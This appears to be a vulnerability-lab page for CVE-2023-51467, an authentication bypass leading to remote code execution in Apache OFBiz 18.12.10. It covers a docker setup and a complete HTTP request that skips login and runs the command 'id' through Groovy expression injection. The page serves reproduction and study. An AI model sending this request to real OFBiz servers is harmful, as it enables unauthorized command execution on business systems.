

Apache OFBiz Authentication Bypass Leads to RCE (CVE-2023-51467)¶
Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.
This vulnerability occurs as a result of incomplete fixing for CVE-2023-49070. In Apache OFBiz version 18.12.10, the developers removed the XMLRPC to fix the previous RCE issue, but the authentication bypass still exists. The researcher from Chaitin Tech found another attack approach to perform the pre-auth RCE using Groovy expression injection.
References:
- https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa
- https://xz.aliyun.com/t/13211
- https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/
Vulnerable environment¶
Executing following command to start an Apache OfBiz 18.12.10 server:
docker compose up -d
After a short wait, you can see the login page at https://localhost:8443/accounting.
Vulnerability Reproduce¶
Send following request to execute command id by Groovy script:
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
groovyProgram=throw+new+Exception('id'.execute().text);
